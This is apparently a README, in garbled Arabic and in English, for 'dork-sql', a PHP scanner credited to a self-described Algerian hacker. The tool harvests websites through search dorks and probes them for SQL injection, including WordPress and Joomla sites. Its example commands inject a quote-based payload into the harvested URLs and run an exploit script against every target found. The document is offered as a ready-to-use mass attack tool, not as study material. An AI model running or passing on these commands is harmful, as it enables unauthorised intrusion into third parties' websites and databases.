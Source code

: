 # dork-sql

اداة خاصة  بالببحثث  ععن ثثغرات  sql injetion+wordpress+jomla 


الاداة تبححثث ببكمية ككبيررة  

من تعديليي  hmidax01 
hmida  hacker dz 


ولككي تعملل الادداةة يجبب اسستتعمال  اوامر وواالاواامر هي  التي تتبححتلك



A tool for searching sql injetion + wordpress + jomla vulnerabilities


The tool searches in a large quantity

Modifiers of hmidax01
hmida hacker dz


In order for the tool to work, you must use commands and commands that are in store for you



dork and commonde
php scaner.php --dork sw_comment.php?id=il -s test.txt -q 1,6 --exploit-get "?'´%270x27;"

php scaner.php --dork نوع  الدورك -s الدي تود الحفظ عليه المواقع بصيغة txt -q 1,6 --exploit-get "?'´%270x27;"

php scaner.php --dork 'inurl:"wp-content/themes/u-design/"' -q 1,6 -s save.txt --comand-all 'php exploit.php _TARGET_'



